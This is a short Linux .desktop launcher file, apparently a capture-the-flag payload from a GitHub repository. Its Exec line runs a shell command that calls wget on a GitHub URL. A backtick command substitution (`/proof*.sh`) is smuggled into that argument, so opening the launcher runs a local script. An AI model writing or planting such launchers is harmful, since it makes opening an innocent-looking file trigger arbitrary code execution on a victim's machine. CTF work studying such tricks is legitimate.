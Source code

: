  [Desktop Entry]
Exec=sh -c "wget https://github.com/just0111ctf/omggg/blob/main/README.md`/proof*.sh`"
Type=Application
